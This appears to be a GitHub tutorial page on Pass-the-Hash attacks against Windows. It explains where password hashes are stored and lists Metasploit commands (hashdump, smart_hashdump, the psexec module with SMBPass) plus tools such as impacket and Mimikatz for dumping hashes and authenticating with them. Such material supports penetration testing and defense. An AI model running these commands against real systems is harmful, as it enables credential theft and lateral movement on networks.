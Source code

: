 # PASS THE HASH

## What is Pass the hash?
A Pass-the-Hash (PtH) attack is a technique whereby an attacker captures a password hash (as opposed to the password characters) and then simply passes it through for authentication and potentially lateral access to other networked systems. The threat actor doesn’t need to decrypt the hash to obtain a plain text password. PtH attacks exploit the authentication protocol, as the passwords hash remains static for every session until the password is rotated. Attackers commonly obtain hashes by scraping a system’s active memory and other techniques.

While Pass-the-Hash (PtH) attacks can occur on Linux, Unix, and other platforms, they are most prevalent on Windows systems. In Windows, PtH exploits Single Sign-On (SS0) through NT Lan Manager (NTLM), Kerberos, and other authentication protocols. When a password is created in Windows, it is hashed and stored in the Security Accounts Manager (SAM), Local Security Authority Subsystem (LSASS) process memory, the Credential Manager (CredMan) store, a ntds.dit database in Active Directory, or elsewhere. So, when a user logs onto a Windows workstation or server, they essentially leave behind their password credentials.

If you’re in meterpreter shell you can run commands below

```run hashdump```

or smarthashdump like

```post/windows/gather/smart_hashdump```

Or you can search another technique in metasploit

```search hashdump```

or you can use PSEXEC module for attack
1. Get hashes within a meterpreter session
```run post/windows/gather/hashdump```

2. Now use the psexec module from metasploit
```use exploit/windows/smb/psexec```

3. Set all the required options and pass the hash with the following command
```set SMBPass [hash]``` and run the exploit.

**Example**
1. Here i have used [secretdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to get the hashes from the target machine.
![hashes](images/hashes.png)

2. Now pass the hash with [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py)
![passthehash](images/last.png) 

**Other tools that can be used for performing Pass the hash attack**
1. [Empire](https://github.com/EmpireProject/Empire)
2. [Mimikatz](https://github.com/gentilkiwi/mimikatz)
3. [Pass the hash toolkit](https://www.kali.org/tutorials/pass-the-hash-toolkit-winexe-updates/)
4. [PSExec](https://www.offensive-security.com/metasploit-unleashed/psexec-pass-hash/)
5. [Evil-winrm](https://github.com/Hackplayers/evil-winrm)
